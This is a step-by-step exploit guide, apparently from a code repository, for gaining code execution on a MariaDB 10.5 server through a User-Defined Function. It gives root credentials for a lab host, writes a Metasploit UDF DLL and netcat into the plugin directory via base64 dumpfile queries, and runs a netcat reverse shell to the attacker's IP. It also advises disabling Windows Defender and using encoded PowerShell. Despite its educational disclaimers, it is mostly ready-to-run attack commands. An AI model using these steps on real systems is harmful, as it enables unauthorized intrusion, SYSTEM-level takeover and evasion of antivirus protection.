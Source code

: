 
---

# MariaDB  10.5 Authenticated Code execution

This guide provides detailed instructions to exploit a User-Defined Function (UDF) vulnerability in MariaDB on a remote server. These steps include downloading and executing malicious code on a vulnerable database system.

> **Warning:** This document is for educational purposes only. Unauthorized use of these techniques is illegal and unethical.

## Steps to Reproduce the Attack

### 1. Connect to MariaDB Remote Host

Use the following command to connect to the MySQL server:

```bash
mysql -h 192.168.214.129 -u root -pPassw0rd!
```

### 2. Check MariaDB Version

To determine the version of MySQL running, execute:

```sql
select @@version;
```

### 3. List All Users

To see the current user logged in:

```sql
select user();
```

### 4. Dump All Information About the Root User

Retrieve all details related to the root user:

```sql
select * from mysql.user where user='root';
```

### 5. Check User Privileges

Determine what privileges the current user has:

```sql
show grants;
```

### 6. Check the Architecture of the System

Determine if the system architecture is vulnerable to UDF:

```sql
select @@version_compile_os, @@version_compile_machine;
```

### 7. Check the Plugin Directory

Identify the plugin directory where UDF files can be uploaded:

```sql
select @@plugin_dir;
```

### 8. Copy the 32-bit DLL

Copy the 32-bit DLL from Metasploit’s exploit directory:

```bash
ls /usr/share/metasploit-framework/data/exploits/mysql/
cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll udf.dll
```

### 9. Convert the DLL to Base64 Format

Encode the `udf.dll` file in base64 format:

```bash
cat udf.dll | base64 | tr -d '\n' > udf.base64
```

### 10. Transfer the DLL to the MySQL Server

Copy the base64 value from `udf.base64` and transfer it into the MySQL server:

Open `udf.base64` in a text editor:

```bash
leafpad udf.base64
```

In MariaDB, run:

```sql
select from_base64("base64 value") into dumpfile 'C:\\Program Files\\MariaDB 10.4\\lib\\plugin\\udf.dll';
```

Alternatively, use the following path if necessary:

```plaintext
C:\Program Files\MariaDB 11.1\lib\plugin\
```

### 11. Load the UDF Function into MariaDB

Execute the following command in MariaDB to create a new function:

```sql
create function sys_exec returns int soname 'udf.dll';
```

> **Note:** You can also use `sys_eval`, `sys_get`, `do_system`, or `sys_bineval`. Ensure you use `int` and not `into`.

### 12. Verify the UDF Installation

Check if the UDF function was successfully installed:

```sql
select * from mysql.func;
```

### 13. Prepare the Netcat Binary

Copy the Netcat executable to your local directory and encode it in base64:

```bash
cp /usr/share/windows-binaries/nc.exe .
cat nc.exe | base64 | tr -d '\n' > nc.base64
```

### 14. Transfer Netcat to the MariaDB Server

Open `nc.base64` in a text editor:

```bash
leafpad nc.base64
```

Then, in MySQL:

```sql
select from_base64("base64valueofNc.exe") into dumpfile 'C:\\Program Files\\MariaDB 10.5\\lib\\plugin\\nc.exe';
```

Alternatively, you can directly upload it using:

```bash
mysql -u root -p -h 192.168.214.129 < nc.base64
```

### 15. Execute Netcat for a Reverse Shell

Turn on Netcat listener on port 443:

```bash
sudo nc -nlvp 443
```

Execute Netcat on the remote server for a reverse shell:

```sql
select sys_exec('C:\\Program Files\\MariaDB 10.4\\lib\\plugin\\nc.exe 192.168.214.128 443 -e cmd.exe');
```

> **Note:** This step may be blocked by Windows Defender or other antivirus software. Consider using PowerShell encoded commands (`powershellbase64`) and ensure Defender is turned off.

### 16. Execute PowerShell Commands

Execute a PowerShell command using base64 encoding:

```sql
select sys_exec('powershellbase64');
```

> **NOTE:** You may gain NT AUTHORITY SYSTEM privileges in many cases.

### Additional Information

- **Drop Function:** To remove any created UDF functions:

  ```sql
  drop function sys_get;
  ```

- **Check Local Infile:** Verify if local write is enabled:

  ```sql
  show variables like 'local_infile';
  ```

- **Find Users with Insert Privilege:** Identify which users have the insert privilege:

  ```sql
  use mysql;
  select user from user where insert_priv='Y' and Host='%';
  ```

---

**Disclaimer:** This document is intended for educational purposes and security research only. Misuse of this information can result in criminal charges and severe legal penalties. Always obtain permission from the relevant authorities before testing any vulnerabilities on a network or system.
